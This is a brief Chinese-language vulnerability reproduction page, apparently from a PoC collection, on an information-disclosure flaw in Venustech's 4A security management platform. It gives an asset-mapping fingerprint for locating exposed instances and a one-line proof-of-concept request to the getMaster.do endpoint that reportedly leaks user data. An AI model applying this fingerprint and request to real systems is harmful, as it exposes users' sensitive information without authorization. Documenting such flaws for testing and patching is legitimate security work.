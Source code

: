 # 启明星辰 4A统一安全管控平台 getMaster.do 信息泄漏漏洞

## 漏洞描述

启明星辰 4A统一安全管控平台 getMaster.do 接口存在信息泄漏漏洞，通过发送特定请求包可以获取用户敏感信息

## 漏洞影响

<a-checkbox checked>启明星辰 4A统一安全管控平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>web.body="cas/css/ace-part2.min.css"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1691987645140-60c2204f-fdd2-4ca4-b8ab-0b890ae4a9cc.png)

验证POC

```http
/accountApi/getMaster.do
```

![image-20230814124146987](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20230814124146987.png)